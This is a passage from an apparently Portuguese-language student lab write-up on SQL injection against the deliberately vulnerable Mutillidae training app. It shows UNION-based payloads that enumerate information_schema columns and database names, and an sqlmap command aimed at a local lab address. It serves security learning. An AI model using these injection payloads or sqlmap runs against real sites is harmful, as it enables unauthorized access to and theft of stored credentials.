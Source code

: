 Isso é nós temos que informar o número de colunas que essa tabela tem e que já sabemos que são 7 então basta fazer:

```sql
SELECT username FROM accounts WHERE username='admin' UNION SELECT 1,2,3,4,5,6,7 from information_schema.columns where table_name='accounts' -- ' AND password='';
```

E com isso temos a resposta

![Todas as senhas e usuários](\img\ataque_geral.png)

E para saber qual o banco onde essas colunas (2 para username, 3 para password e 4 para signature) estão basta substituir os numeros correspondentes as informações que quero saber e escrever `database()` da seguinte forma:

```sql
SELECT username FROM accounts WHERE username='admin' UNION SELECT 1,database(),database(),4,5,6,7 from information_schema.columns where table_name='accounts' -- ' AND password='';
```

O que nos dá:

![Informações de onde estão os dados](\img\database.png)

Agora podemos ver o nome das colunas nessa tabela ao fazer:

```sql
SELECT username FROM accounts WHERE username='admin' UNION SELECT 1,column_name,column_name,4,5,6,7 from information_schema.columns where table_name='accounts' and table_schema='nowasp' -- ' AND password='';
```

E com isso descubro todas as colunas dentro do banco sql

![informações do banco sql](\img\information_schema.png),

E essas são todas as colunas presentes no banco SQL nowasp e dentro da tabela accounts.

O information schema seria um banco de dados interno capaz de referenciar os demais bancos presentes em minha aplicação, podendo informar nomes de colunas e tabelas. Sendo assim muito importante para descobrir que informações estão guardadas.

## SQLMAP

Outra falha de segurança (visto no curso de http) é que o site manda pro server pelo http a senha e usuário pela URL.

![URL](\img\URL.png)

E além do site ter http e não https.

E podemos usar essa vulnerabilidade no terminal do kali pra deixar nossas requests um pouco mais simples com o SQLMAP. para isso no terminal eu escrevo

```sh
sqlmap -u "http://192.168.0.102/mutillidae/index.php?page=user-info.php&username=admin&password=aaa&user-info-php-submit-button=View+Account+Details"
```

